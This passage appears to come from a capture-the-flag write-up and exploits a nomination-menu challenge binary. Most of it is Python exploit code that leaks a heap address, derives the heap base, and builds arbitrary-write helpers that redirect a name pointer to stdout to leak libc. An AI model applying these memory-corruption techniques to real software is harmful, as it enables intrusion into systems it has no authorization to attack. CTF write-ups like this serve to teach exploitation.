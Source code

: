 Now, **execute the heap-leak by viewing the complete list of nominations**. The name of the first item will be and address on the heap.

```python
def leak_top():
    wait_prompt()
    echo("2")
    echo("y")
    _ = p.recvuntil("0  - ")
    bytes = "".join(map(chr, p.recvline(keepends=False)))
    print("".join(map(chr,_)) + bytes)

    wait_prompt()
    echo("")
    return u64(bytes.ljust(8, '\0'))

heap_addr = leak_top()
heap_base = heap_addr - 0x2b0
print("LEAKED HEAP ADDR: 0x%08X" % heap_addr)
print("HEAP BASE ADDR: 0x%08X" % heap_base)
```

Since the heap allocations are deterministic, it's trivial to verify that the leaked address will be offset `0x2b0` bytes from the start of the heap.

**Modify `list` so that "no-args" is again the first item. Modify "dummy"'s `name` ptr to be address of `stdout`. Then Modify `list` again so that "dummy" is the first item, and leak the top name (which will be the address of `_IO_2_1_stdout_` inside libc).**

```python
#assumes we are starting with nulls
def write64(addr, value):
    bytes = p64(value)
    for i in range(8):
        b = bytes[i]
        if b:
            while (b > 0x7f):
                add(addr, 0x7f)
                b -= 0x7f
            add(addr, b)
        addr += 1

def add32(addr, value):
    sign = -1 if value < 0 else 1
    value = abs(value)
    bytes = p32(value)
    for i in range(4):
        b = bytes[i]
        if b:
            while (b > 0x7f):
                add(addr, sign*0x7f)
                b -= 0x7f
            add(addr, sign*b)
        addr += 1

add(aout.symbols["list"], 0x40) # restore "no-args" to be the first item

# leaked pointer is heap offset 0x2B0, which is the value of `name*` for the
# `problem_t` at offset 0x290.
# Offset 0x290 is the user-data for the next `problem_t` after "dummy"
# The problem_t for "dummy" is at 0x250 (it's original namestring string "dummy" is at 0x2B0)
# The current value of `name*` for "dummy" is heap offset 0x290.

add32(heap_base + 0x250,  -(heap_base + 0x290)) # subtract out current value (result=0)

write64(heap_base + 0x250, aout.symbols["stdout"])
```